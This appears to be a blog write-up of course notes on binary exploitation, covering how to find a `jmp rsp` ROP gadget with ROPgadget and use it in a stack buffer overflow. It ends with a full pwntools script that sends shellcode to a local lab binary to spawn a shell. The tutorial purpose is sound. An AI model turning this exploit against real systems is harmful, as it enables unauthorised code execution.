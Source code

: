 This is part IV of my notes while working through [TsarSec's Course](https://taggartinstitute.org/courses/an-oral-history-of-binary-exploitation-defenses) on [binary-exploitation](https://github.com/TrshPuppy/obsidian-notes/blob/main/cybersecurity/TTPs/exploitation/binary-exploitation/buffer-overflow.md). You can find part II [here](https://trshpuppy.github.io/portfolio/writeups/binary-exploitation).
# Binary Exploitation Pt. 4: ROP Gadgets
In [part 3](https://trshpuppy.github.io/portfolio/writeups/nop-sleds) of my binary exploitation series we learned how to use a NOP sled to *increase the reliability* of our buffer overflow. However, the NOP sled technique is still *not 100% reliable* mostly due to the fact that, depending on where our entry point is on the stack, the vulnerable program's stack *may not be big enough for a large NOP sled*.

Fortunately, there's another technique we can use to ensure the CPU *jumps to the exact address of our shellcode*, and that's by high-jacking an instruction in the binary.
## Return Oriented Programming (ROP)
Return Oriented Programming is a binary exploit technique in which an attacker *uses machine instructions which are already present in memory* to exploit a program. This is usually *despite security defenses*.
### `jmp rsp` Instruction
The `jmp rsp`/ `call rsp` instruction is an instruction in the binary *which tells the CPU to go to the current address of the RSP*. These instructions are called 'jump gadgets' and *are always loaded into the same address* relative to the application's address space when it's loaded.

For our purposes, `jmp rsp` and/ or `call rsp` are ROP Gadgets and we're going to use them to *increase our exploit reliability.*
### Why is the Address Static?
We can bet on the fact that the address of `jmp rsp` will be the same between our machine and the target machine *as long as both machines are running the same OS*. Additionally, both machines would have to have defensive measures such as Address Space Layout Randomization ([ASLR](/computers/memory/ASLR.md)) turned off.

We're assuming these things are true. Without ASLR the OS *does not randomize the base addresses of the vulnerable program.* Instead, the OS loads the program into fixed, predictable addresses which are the same across machines.

There are additional considerations which go into this, including how the [compiler]() and [linker]() make decisions when the program is compiled, whether the output of compilation is deterministic, and whether or not the executables (on our machine and on the target machine) are identical or not. But, we're not going to worry about those right now.

Just assume that our target machine and our current machine are running the same OS and the layout of the address space of either *is not* randomized.
## Finding a ROP Gadget in the Binary
In order to find our ROP gadget, we can use a command line tool called `ROPgadget`. ROPgadget will list all the possible gadgets in our binary, and we can `grep` that list for our specific one (`jmp rsp`):
```bash
┌──(hakcypuppy㉿kali)-[~/tsar]
└─$ ROPgadget --binary ./vuln_1 | grep -i 'jmp rsp'
0x0000000000401150 : add bh, al ; cld ; jmp rsp
0x000000000040114e : add dword ptr [rax], eax ; add bh, al ; cld ; jmp rsp
0x0000000000401153 : cld ; jmp rsp
0x0000000000401154 : jmp rsp
```
In the output we can see that `ROPgadget` found 4 addresses in the binary where `jmp rsp` is mentioned. Let's use the address *that only lists `jmp rsp`* as an instruction(`0x0000000000401154`).
## Changing the Exploit Code
Remember when we did the NOP sled, our exploit ended up looking something like this on the stack:
![](/writeups/writeup-pics/Pasted%20image%2020231214121607.png)
![](/writeups/writeup-pics/Pasted%20image%2020231124142229.png)
Now that we have *the exact address* of our jump gadget, we can fix our exploit code so that our exploit will look like this:
![](writeups/writeup-pics/Pasted%20image%2020231214152234.png)
![](/writeups/writeup-pics/Pasted%20image%2020231214123032.png)
**REMEMBER**: That our *stack pointer* (which is where `jmp rsp` will tell the CPU to go and start executing from) *will be pointing directly at our shellcode*! This is because the `overflow()` function *will return first* before our overflow actually starts hijacking the execution flow.

The *stack pointer always points to the top of the stack*. So, **BEFORE** the CPU reads the address that we've overwritten the saved RIP frame with, the `overflow()` frame will be popped off the stack. Then the CPU will go to the address of saved RIP (which we've over-written). The saved RIP will be popped off the stack, and the stack pointer moved to the next frame (the frame we've overwritten with our shellcode).

When our ROP gadget `jmp rsp` is executed by the CPU, our stack will look like this:
![](/writeups/writeup-pics/Pasted%20image%2020231214124449.png)
When the CPU pops the saved RIP off the stack, and reads the address saved in there (`jmp rsp`), the CPU will go to that address, read the `jmp rsp` instruction, and *the current value in the `%rsp` register will be where the stack pointer is currently pointing* (our shell code).
### Our Code
Finally, let's look at our new exploit code:
```python
#!/usr/bin/env python3
from pwn import *

# we point saved rip to a 'jmp rsp' gadget:
new_rip = 0x0000000000401154

# construct shell code:
# let pwntools know we're dealing w/ a 64-bit target
context.update(arch="amd64")
shellcode = asm(shellcraft.amd64.linux.sh())

# construct payload
payload = b"A" * overflow_offset_rip
payload += p64(new_rip)
payload += shellcode

# connect to the vulnerable program
p = process("./vuln_1")

# send payload
pause()
p.sendafter(b"Hey, whats your name!?\n", payload)
p.sendafter(b"is this name correct? (y/n)?\n", b"y\n") 

p.interactive()
```
**GOTTEM!**

In the next part we'll learn more about ROP Gadgets and how to bypass some modern defenses of the stack!

Until then, Happy Holidays!

> [!Resources]
> - [Wikipedia: Return-oriented Programming](https://en.wikipedia.org/wiki/Return-oriented_programming)
> - [TsarSec: Oral History of Binary Exploitation](https://taggartinstitute.org/courses/an-oral-history-of-binary-exploitation-defenses)
> - My notes (linked throughout) you can find [here](https://github.com/TrshPuppy/obsidian-notes)


